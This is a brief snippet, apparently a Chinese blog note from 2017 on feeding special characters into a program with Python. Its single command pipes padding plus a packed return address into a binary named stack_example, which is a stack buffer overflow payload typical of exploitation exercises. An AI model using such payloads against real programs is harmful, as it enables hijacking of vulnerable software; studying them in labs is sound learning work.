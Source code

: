 # python---输出特殊字符作为程序输入

```r
python -c "print 'a'*0x18 + '\x3b\x84\x04\x08'" | ./stack_example
```


2017/12/17  

